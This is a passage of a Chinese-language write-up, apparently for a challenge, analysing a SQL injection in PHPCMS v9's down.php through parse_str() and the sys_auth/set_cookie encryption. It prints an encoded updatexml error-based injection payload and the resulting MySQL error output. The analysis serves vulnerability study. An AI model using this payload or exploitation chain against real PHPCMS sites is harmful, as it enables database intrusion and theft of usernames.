 ```
{"aid":1,"src":"&id=1%27%20and%20updatexml(1,concat(0x7e,(select%20mid((SELECT%20username%20from%20&quot table_name &quot%20limit%200,1),1,16)),0x7e),1)#&m=1&modelid=1&f=1&catid=1","filename":""}
```


### php 危險函數
parse_str($a_k); 
創造:
```
$f = "1"
$id = "1' and updatexml(1,concat(0x7e,(select mid((SELECT username from "
$m = "1"
```

id 被注入造成報錯:
```
$this->db->get_one(array('id'=>$id));	
```



```
MySQL Query : SELECT * FROM `phpcmsv9`.`v9_news_data` WHERE `id` = '1' and updatexml(1,concat(0x7e,(select mid((SELECT username from ' LIMIT 1
MySQL Error : You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' LIMIT 1' at line 1
MySQL Errno : 1064
Message : You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' LIMIT 1' at line 1 

```


完成，sql payload 還可以換承其他的這邊就不多放了。




# 總節一下 


這題利用很複雜。

作者肯定是先找到 
phpcms/modules/content/down.php

這兩個關鍵點
```
parse_str($a_k); 
$rs = $this->db->get_one(array('id'=>$id));	
```

如果要加已利用的情況下，往上發現有個解密
```
sys_auth($a_k, 'DECODE', pc_base::load_config('system','auth_key'));
```


因此需要找到哪裡會加密
set_cookie函數就會加密。
<br/>
